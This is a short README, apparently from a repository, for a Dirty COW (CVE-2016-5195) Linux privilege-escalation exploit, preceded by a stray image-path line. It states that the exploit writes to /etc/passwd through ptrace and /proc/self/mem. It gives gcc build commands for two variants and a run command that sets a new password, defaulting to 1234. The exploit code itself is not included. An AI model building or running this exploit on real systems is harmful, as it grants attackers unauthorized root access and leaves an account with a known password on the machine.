 # cve-2016-5195-DirtyCOW
* This exploit using **ptrace(POKETEXT)** & **/proc/self/mem** and change /etc/passwd

# Compile 
* exploit:
```
gcc exploit.c -o exploit -lpthread -lcrypt
```
* exploit_proc:
```
gcc exploit_proc.c -o exploit_proc -lpthread -lcrypt
```

# Use
```
./exploit [password] or ./exploit_proc [password]
```
* if you empty password field it used default password : 1234
